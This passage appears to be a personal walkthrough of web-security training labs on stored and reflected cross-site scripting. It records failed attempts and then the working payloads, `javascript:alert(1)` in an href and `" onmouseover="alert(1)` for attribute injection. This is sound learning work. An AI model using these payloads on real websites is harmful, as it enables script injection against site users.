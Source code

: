 2. How about script tag input
Comment: `<script>alert(123)</script>`
![](https://i.imgur.com/TWJV4F3.png)
Seems not working here

3. How about inject into website place?
Website: `https://test.sbkblog.online"<script>alert(123)</script>//`
![](https://i.imgur.com/kfP6IeN.png)
Still not working here

4. <font color="FF0000">According to **Lab: DOM XSS in jQuery anchor `href` attribute sink using `location.search` source**</font>
We know that we can inject XSS in `href` attribute by using the payload: `javascript:alert(1)`

### Exp
Website Payload: `javascript:alert(1)`
![](https://i.imgur.com/u6COY4h.png)

:::spoiler Success Screenshot
![](https://i.imgur.com/Qj21zuC.png)
:::


---
## Lab: Reflected XSS into attribute with angle brackets HTML-encoded
* Description: This lab contains a reflected cross-site scripting vulnerability in the search blog functionality where angle brackets are HTML-encoded.
* Goal: To solve this lab, perform a cross-site scripting attack that injects an attribute and calls the alert function.
### Recon
1. Find the place to inject
Input: `abc`
![](https://i.imgur.com/RfMiJ1W.png)
Seems we have 2 candidates

2.  How about script tag
Input: `<script>alert(123)</script>`
![](https://i.imgur.com/mLhHdgh.png)
Seems angle brackets are HTML-encoded and not working properly.

3. How about `href` attribute?
Input: `"javascript:alert(123)`
![](https://i.imgur.com/NNm3USg.png)
Still not working for input tag.

### Exp - <font color="FF0000">New payload</font>
Input: `" onmouseover="alert(1)`
![](https://i.imgur.com/BDO0c0s.png)
